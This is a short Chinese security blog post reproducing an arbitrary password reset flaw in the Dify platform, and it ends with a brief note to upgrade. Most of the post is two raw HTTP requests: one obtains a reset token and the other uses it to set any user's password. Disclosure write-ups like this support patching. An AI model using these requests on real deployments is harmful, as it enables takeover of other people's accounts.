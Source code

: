 #  【漏洞复现】dify任意密码重置   
yzcrnx  安全鸭   2025-05-28 10:49  
  
原文：https://github.com/langgenius/dify/issues/18114  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/flBFrCh5pNZiaqzbAUYeicUrHJRxoAEFFoibRfnuVne5lM3iakVgcJBLO7cqMmhgneYcH3zfXlgYz6W4iaqaJiaPfJFg/640?wx_fmt=png&from=appmsg "")  
  
瞎逛GitHub的时候发现dify新出一个漏洞，任意密码重置实现任意用户接管。通过调用api完成任意用户密码重置，简单复现如下：  
  
1. 获取token  
```
POST /console/api/forgot-password HTTP/1.1
Host: dify.xxx.com
Content-Type: application/json

{"email":"test@qq.com","language":"zh-Hans"}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/flBFrCh5pNZiaqzbAUYeicUrHJRxoAEFFoUNib2ttkic7ZN7TZv09b4SQHTWiaUHXic0FsSPmPK4YatEVJfG9aZHNIicQ/640?wx_fmt=png&from=appmsg "")  
  
  
2. 重置密码  
  
上面接口拿到token，直接入参到resets进行密码重置操作  
```
POST /console/api/forgot-password/resets HTTP/1.1
Host: dify.xxx.com

{"token": "029f0e0f-3b46-4aab-9ef5-eba0dc66e58c","new_password":"AAa1234567","password_confirm":"AAa1234567"}
```  
  
完成重置  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/flBFrCh5pNZiaqzbAUYeicUrHJRxoAEFFoIFsnJqaxHRD9x8thblOMBZQ0ic1BX5LmCQPK1Eyr5AxNqrYt8CVgZpg/640?wx_fmt=png&from=appmsg "")  
  
修复方案：目前新版本已经修复，部署新版本即可。  
  
